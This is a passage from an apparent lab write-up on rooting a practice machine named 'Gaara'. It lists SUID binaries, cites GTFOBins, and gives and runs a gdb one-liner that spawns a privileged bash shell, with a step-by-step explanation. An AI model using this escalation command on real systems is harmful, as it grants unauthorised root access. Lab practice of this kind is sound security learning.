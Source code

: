 -rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su

-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd

-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount

-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount

Now to check against a list of ways to escalate based on unix binaries with sudo privileges: 

  

[https://gtfobins.github.io/](https://gtfobins.github.io/)

  

Alright so gdb has sudo privleges and it's a debugger to run programs so let's escalate to root

gdb -nx -ex 'python import os; os.execl("/bin/bash", "bash", "-p")' -ex quit

Basically it runs a python bash shell through gdb

- gdb is invoked, a standard debugger on Unix-like systems.
    
- The -nx option tells gdb to not execute any commands from initialization files.
    
- The -ex option is used to specify commands for gdb to execute.
    
- A Python command is executed by gdb, which replaces the current gdb process with a new bash shell process.
    
- The new bash shell process runs with the same privileges as the gdb process.
    
- gdb is instructed to quit.
    

  

gaara@Gaara:~$ gdb -nx -ex 'python import os; os.execl("/bin/bash", "bash", "-p")' -ex quit

GNU gdb (Debian 8.2.1-2+b3) 8.2.1

Copyright (C) 2018 Free Software Foundation, Inc.

License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software: you are free to change and redistribute it.

There is NO WARRANTY, to the extent permitted by law.

Type "show copying" and "show warranty" for details.

This GDB was configured as "x86_64-linux-gnu".

Type "show configuration" for configuration details.

For bug reporting instructions, please see:

<http://www.gnu.org/software/gdb/bugs/>.

Find the GDB manual and other documentation resources online at:

    <http://www.gnu.org/software/gdb/documentation/>.

  

--Type <RET> for more, q to quit, c to continue without paging--c
